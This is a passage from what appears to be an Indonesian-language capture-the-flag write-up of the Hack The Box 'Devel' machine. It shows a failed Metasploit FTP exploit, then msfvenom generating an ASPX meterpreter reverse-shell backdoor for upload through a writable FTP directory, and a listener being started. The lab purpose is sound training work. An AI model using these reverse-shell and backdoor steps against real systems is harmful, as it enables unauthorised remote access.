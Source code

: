 ```bash
[*] 10.129.136.185:21 - 451 No mapping for the Unicode character exists in the target multi-byte code page.
[*] Exploit completed, but no session was created.
msf6 exploit(windows/ftp/ms09_053_ftpd_nlst) > 
```

sayangnya disini saya tidak berhasil mendapatkan akses tersebut, akan tetapi jika diperhatikan pada gambar dibawah ini beberapa payload dari module tersebut berhasil terupload pada server tersebut, ini menunjukan bahwa directory tersebut writable. 

![](/home/punktester/.config/marktext/images/2022-10-14-07-03-58-image.png)

disini saya berfikir untuk mengupload aspx backdoor menggunakan ftp, langkah pertama saya membuat sebuah payload dengan **msfvenom**

```bash
┌──(punktester㉿kali)-[~/…/ctf/htb/easy/devel]
└─$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.15 LPORT=4444 -f aspx > halah.aspx 
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of aspx file: 2866 bytes
```

selanjutnya saya menjalankan module listener pada metasploit

```bash
msf6 exploit(multi/handler) > options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.14.15      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 10.10.14.15:4444 
```
